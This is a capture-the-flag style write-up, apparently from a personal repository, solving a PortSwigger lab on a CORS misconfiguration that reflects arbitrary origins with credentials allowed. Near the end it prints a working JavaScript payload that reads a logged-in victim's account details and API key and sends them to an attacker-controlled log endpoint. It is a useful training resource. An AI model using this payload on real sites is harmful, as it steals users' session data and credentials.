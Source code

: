 ## Lab Description: CORS vulnerability with basic origin reflection

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/68bd15a5-9483-46ad-ab35-cb66a7569a61)

## Solution: 

### Server-generated ACAO header from client-specified Origin header

Some applications need to provide access to a number of other domains. Maintaining a list of allowed domains requires ongoing effort, and any mistakes risk breaking functionality. So some applications take the easy route of effectively allowing access from any other domain.

One way to do this is by reading the Origin header from requests and including a response header stating that the requesting origin is allowed. For example, consider an application that receives the following request:
```
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
```
It then responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
```

These headers state that access is allowed from the requesting domain (malicious-website.com) and that the cross-origin requests can include cookies (Access-Control-Allow-Credentials: true) and 
so will be processed in-session.

Because the application reflects arbitrary origins in the Access-Control-Allow-Origin header, this means that absolutely any domain can access resources from the vulnerable domain. 


First let's login as wiener using the credentials given - wiener:peter

Once logged in , we can see that there is an email update functionality & the API key of wiener.

In the HTTP history tab, we can see that the GET request to /accountDetails contains the ACAC=true header in its response.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/c2465897-98c2-4afb-a15e-89ed39432cfc)

This meaans that if we can able to exploit CORS here then we can able to get the session cookie, API key etc of the user.

Note that there is no Origin header in the request that's why we don't see any Access-Control-Allow-Origin header too.

Exploiting CORS misconfiguration -

If we try to provide Origin: malicious.com , we can see that there is Access-Control-Allow-Origin: malicious.com & Access-Control-Allow-Credentials: true in the response.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/5578e4bf-94e3-4b00-99b9-7960b79e0349)

This means the server takes the Origin provided in the request and sends it back in the response with the header Access-Control-Allow-Origin: <origin.com>.

Go to exploit server and paste the following code.

```
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0aca000b03408aa480b9856d00e600f5.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
   location='/log?key='+this.responseText;
};
</script>
```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/065a3611-4297-4a7a-8db9-e3ca298c504f)


![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/621c9f25-7e54-4ac0-a65f-473967f002f7)

Finally We have solved this lab 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/d9f3c90e-9f9c-464a-82e7-94ff3e24833b)


